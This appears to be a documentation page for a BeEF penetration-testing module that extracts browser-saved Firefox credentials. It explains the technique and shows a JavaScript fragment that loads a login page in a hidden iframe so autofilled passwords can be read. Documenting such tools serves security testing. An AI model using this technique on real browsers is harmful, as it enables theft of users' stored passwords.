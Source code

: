 ## Summary
* **Objective**: Extract credentials saved in the browser
* **Authors**: bcoles
* **Browsers**: Firefox
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_stored_credentials]]

## Internal Working

This module tries to extract passwords saved in the browser by creating an iframe of the provided login_url, waiting for any password fields to be auto-filled by the browser, and then extracting it.

```js
iframe = document.createElement("iframe");
iframe.setAttribute("id","credentials_container_<%= @command_id %>");
iframe.setAttribute("src", login_url);
iframe.setAttribute("style","display:none;visibility:hidden;border:none;height:0;width:0;");
document.body.appendChild(iframe);
```



## Feedback